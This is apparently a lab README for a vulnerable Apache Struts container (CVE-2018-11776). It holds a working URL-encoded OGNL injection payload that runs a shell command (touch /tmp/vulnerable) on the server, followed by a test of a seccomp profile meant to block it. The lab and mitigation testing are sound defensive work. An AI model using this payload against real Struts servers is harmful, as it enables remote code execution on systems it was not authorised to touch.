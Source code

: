 
Container: bhdresh/cve-2018-11776:1.0 <br>
Run: ```sudo docker run -it -p 8080:8080 bhdresh/cve-2018-11776:1.0 ```<br>

Exploit will create vuln file in /tmp simply append this PoC: <br>
```
:8080/struts2-showcase-2.3.14/%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27touch /tmp/vulnerable%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/help.action
```

Use custom seccomp profile and check that exploit does not work. <br>
Run: ``` sudo docker run -it --security-opt seccomp=./apache.json -p 8080:8080 bhdresh/cve-2018-11776:1.0```
